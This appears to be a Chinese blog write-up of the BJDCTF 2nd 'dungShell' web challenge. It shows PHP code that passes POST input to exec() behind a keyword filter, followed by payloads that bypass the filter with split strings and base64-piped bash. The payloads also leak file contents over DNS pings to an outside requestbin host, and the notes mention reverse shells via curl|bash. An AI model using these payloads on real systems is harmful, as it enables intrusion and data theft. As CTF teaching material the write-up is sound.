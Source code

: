 ```yaml
---
layout: post
title: BJDCTF 2nd Web Writeup
data: 2020-03-23
categories: Writeups
tags: 
 - CTF
 - Writeup
description:  
excerpt_separator: <!-- more -->
---
```


上周末BJD第二场，又是一届新生赛，尽管如此还是暴露出了很多问题。这段时间就先把这次总结出来的问题解决一下。

<!-- more -->

# dungShell

## 题目描述

提示写到脸上了，有.swp文件。

## 解题思路

源码删减：

{% highlight php linenos %}
<?php
error_reporting(0);
echo "how can i give you source code? .swp?!"."<br>";
if (!isset($_POST['girl_friend'])) {
    die("where is P3rh4ps's girl friend ???");
} else {
    $girl = $_POST['girl_friend'];
    if (preg_match('/\>|\\\/', $girl)) {
        die('just girl');
    } else if (preg_match('/ls|phpinfo|cat|\%|\^|\~|base64|xxd|echo|\$/i', $girl)) {
        echo "<img src='img/p3_need_beautiful_gf.png'> <!-- He is p3 -->";
    } else {
        //duangShell~~~~
        exec($girl);
    }
}
{% endhighlight %}

拦截形同虚设，可以用"php -r"执行PHP代码。不过没有回显，需要将结果打到DNS上。

扫根目录：


```
POST：girl_friend=php -r "system('ping '.substr(implode('.',scandir('/')),6,50).'.295af172a8d3ec4abf30.d.dns.requestbin.buuoj.cn');"
```

读/flag：

```
POST：girl_friend=php -r "system('ping '.substr(system('bas""e64 /flag'),0,50).'.295af172a8d3ec4abf30.d.dns.requestbin.buuoj.cn');"
```

分两次读，解码后：

```
flag{flag-is-not-here,please-find-it-by-yourself}
```

不太对劲，要找真正的flag，在.bash_history里面看到了信息，然后再读：

```
POST：girl_friend=php -r "system('ping '.substr(system('bas""e64 /etc/demo/P3rh4ps/love/flag'),0,50).'.46418d29ca743ab417af.d.dns.requestbin.buuoj.cn');"
```

## 备注

1. 后来看题解，发现我好像非预期了，.bash_history是个意外，预期思路应该是用nc命令或者curl xxxx\|bash弹Shell，然后find一下flag。

2. 因为find命令会返回不止一行，而我的方法是利用了system()的返回，所以不太好用。当然也不是不可以，可以先将find的返回保存到变量foo中，然后echo一下\${foo}。至于"$"符号的绕过，可以先将命令base64编码，传到服务器再解码，然后重定向到bash里，Payload大概长这样：

    ```
    POST：girl_friend=php -r "system('ping '.substr(system('ec""ho YT0kKGZpbmQgLyAtbmFtZSBmbGFnKTtlY2hvICR7YToxMDoxNX18YmFzZTY0Cg==|ba""se64 -d|bash'),0,50).'.f9a0ea65a00ba5753d08.d.dns.requestbin.buuoj.cn');"
    
    YT0kKGZpbmQgLyAtbmFtZSBmbGFnKTtlY2hvICR7YToxMDoxNX18YmFzZTY0Cg== => a=$(find / -name flag);echo ${a:10:15}|base64
    ```

3. 不得不说，上面这个方法太蛋疼了，得整一个VPS工具。
